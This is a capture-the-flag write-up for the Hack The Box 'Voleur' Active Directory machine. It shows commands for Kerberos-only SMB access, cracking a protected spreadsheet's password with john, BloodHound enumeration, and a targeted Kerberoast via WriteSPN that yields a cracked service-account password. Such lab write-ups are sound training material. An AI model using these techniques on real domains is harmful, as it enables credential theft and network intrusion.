



## INFO

```
Machine Information
As is common in real life Windows pentests, you will start the Voleur box with credentials for the following account: ryan.naylor / HollowOct31Nyt
```

There ain't NTLM Authentication ; So gotta do Kerberos way !! As its Kerberos auth. the time need to maintained.   

```
└─# faketime '2025-09-25 12:45:24' nxc smb dc.voleur.htb -u ryan.naylor -p HollowOct31Nyt -k
SMB         dc.voleur.htb   445    dc               [*]  x64 (name:dc) (domain:voleur.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\ryan.naylor:HollowOct31Nyt 
```

Lets check the available shares ; Found we got read access on IT share. Lets explore ; 

```
└─# faketime '2025-09-25 12:45:24' impacket-smbclient voleur.htb/ryan.naylor:HollowOct31Nyt@dc.voleur.htb -k
```



Its password protected ; Lets cracxk the password and access the file !

```
└─# office2john Access_Review.xlsx > john

┌──(root㉿BHASHMA)-[~/HTB_/VOLEUR_]
└─# john john --wordlist=/usr/share/wordlists/rockyou.txt 
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 256/256 AVX2 8x / SHA512 256/256 AVX2 4x AES])

football1        (Access_Review.xlsx) 
```

Upon Inspection , We found credentials ! Damn , Cool Lets explore the AD.





Lets Run the BLOODHOUND !!
```
└─# faketime '2025-09-25 13:06:08' bloodhound-python --domain voleur.htb --domain-controller dc.voleur.htb --nameserver 10.10.11.76 --username ryan.naylor --password HollowOct31Nyt --collectionmethod all --dns-tcp
```

As We have the credentials of svc_ldap , We got privileges !!




```
The user SVC_LDAP@VOLEUR.HTB has the ability to write to the "serviceprincipalname" attribute to the user SVC_WINRM@VOLEUR.HTB.
```

SVC_LDAP --> SVC_WINRM [WRITE_SPN](https://bloodhound.specterops.io/resources/edges/write-spn)

```
└─# faketime '2025-09-25 13:57:25' python targetedKerberoast.py -k --dc-host dc.voleur.htb -u svc_ldap -d voleur.htb
```
```
└─# john winrm_hash --wordlist=/usr/share/wordlists/rockyou.txt 

AFireInsidedeOzarctica980219afi  ::  svc_winrm
```

Lets Login to the box ; in-order to login winrm with kerberos we need to configure the /etc/krb5.conf file ;  Or Use  this  [alternative](https://github.com/adityatelange/evil-winrm-py) , install it in a virtual environment. 


